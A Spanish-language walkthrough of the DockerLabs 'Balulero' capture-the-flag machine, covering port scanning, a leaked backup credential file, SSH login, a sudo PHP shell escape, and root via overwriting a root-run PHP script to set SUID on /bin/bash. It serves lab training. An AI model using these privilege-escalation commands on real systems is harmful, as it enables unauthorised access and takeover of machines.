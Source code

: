 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Balulero DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip balulero.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh balulero.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 09:51 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mi Landing Page - Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.46 seconds
```

Si entramos en la pagina vemos una pagina normal, pero si inspeccionamos el codigo podremos ver lo siguiente:

## Escalate user balu

```html
<script src="script.js"></script>
```

Si nos metemos dentro del `script.js` podremos ver lo siguiente:

```js
// Funcionalidad para ocultar/mostrar el header al hacer scroll y el secretito de la web
    console.log("Se ha prohibido el acceso al archivo .env, que es donde se guarda la password de backup, pero hay una copia llamada .env_de_baluchingon visible jiji")
    let lastScrollTop = 0;
    const header = document.querySelector('header');
    const delta = 5; // La cantidad mÃ­nima de scroll para ocultar el header
```

Vemos que nos comenta que hay una copia de seguridad en la siguiente ruta del siguiente archivo llamado `.env_de_baluchingon`.

```
URL = http://<IP>/.env_de_baluchingon
```

Si nos metemos veremos lo siguiente:

```
RECOVERY LOGIN

balu:balubalulerobalulei
```

Vemos lo que parece ser una credenciales, por lo que nos conectaremos mediante `ssh`.

### SSH

```shell
ssh balu@<IP>
```

Metemos como contraseña `balubalulerobalulei` y veremos que estamos dentro.

## Escalate user chocolate

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for balu on 594b36b05c3c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User balu may run the following commands on 594b36b05c3c:
    (chocolate) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` como el usuario `chocolate`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo -u chocolate php -r "system('$CMD');"
```

Y con esto seremos el usuario `chocolate`.

## Escalate Privileges

Si analizamos los procesos del sistema, veremos lo siguiente:

```shell
ps -aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2616  1548 ?        Ss   14:51   0:00 /bin/sh -c service apache2 start && a2ensite 000-default.conf && service ssh start && while true; do php /opt/script.php; sleep 5; done
root          25  0.0  0.5 201396 22820 ?        Ss   14:51   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.2 201716 12728 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.2 201716 12656 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.2 201708 12592 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
www-data      34  0.0  0.2 201852 12720 ?        S    14:51   0:00 /usr/sbin/apache2 -k start
root          49  0.0  0.0  12196  4148 ?        Ss   14:51   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
www-data      77  0.0  0.2 201676 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      78  0.0  0.2 201676 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      80  0.0  0.2 201700 12620 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      81  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      82  0.0  0.2 201660 11884 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
www-data      83  0.0  0.2 201660 11920 ?        S    14:52   0:00 /usr/sbin/apache2 -k start
root         202  0.0  0.1  13164  8388 ?        Ss   14:56   0:00 sshd: balu [priv]
balu         215  0.0  0.1  13404  6144 ?        S    14:56   0:00 sshd: balu@pts/0
balu         216  0.0  0.0   6000  3872 pts/0    Ss   14:56   0:00 -bash
root         258  0.0  0.1   7496  4308 pts/0    S    14:58   0:00 sudo -u chocolate php -r system('/bin/bash');
chocola+     259  0.0  0.4  67256 20356 pts/0    S    14:58   0:00 php -r system('/bin/bash');
chocola+     260  0.0  0.0   2616  1484 pts/0    S    14:58   0:00 sh -c /bin/bash
chocola+     261  0.0  0.0   6000  3772 pts/0    S    14:58   0:00 /bin/bash
root         290  0.0  0.0   2516  1276 ?        S    14:59   0:00 sleep 5
chocola+     291  0.0  0.0   7892  3520 pts/0    R+   14:59   0:00 ps -aux
```

Vemos que `root` esta ejecutando la siguiente linea:

```
 do php /opt/script.php; sleep 5; done
```

Por lo que vemos esta ejecutando un `script.php` en la carpeta `/opt`.

```shell
ls -la /opt/script.php
```

Info:

```
-rw-r--r-- 1 chocolate chocolate   59 May  7  2024 script.php
```

Vemos que podremos editarlo, por lo que haremos lo siguiente:

> script.php

```php
<?php
// Ejecuta el comando
$output = shell_exec('chmod u+s /bin/bash 2>&1');

// Muestra el resultado
if ($output === null) {
    echo "Permisos modificados correctamente.\n";
} else {
    echo "Error: " . $output . "\n";
}
?>
```

```shell
echo '<?php echo shell_exec("chmod u+s /bin/bash 2>&1") ?? "Permisos modificados correctamente.\n"; ?>' > /opt/script.php
```

Lo guardamos y esperamos unos `5` segundos para que se ejecute, cuando se ejecute veremos si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que ha funcionado ya que ahora la `bash` tiene el `SUID` establecido, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
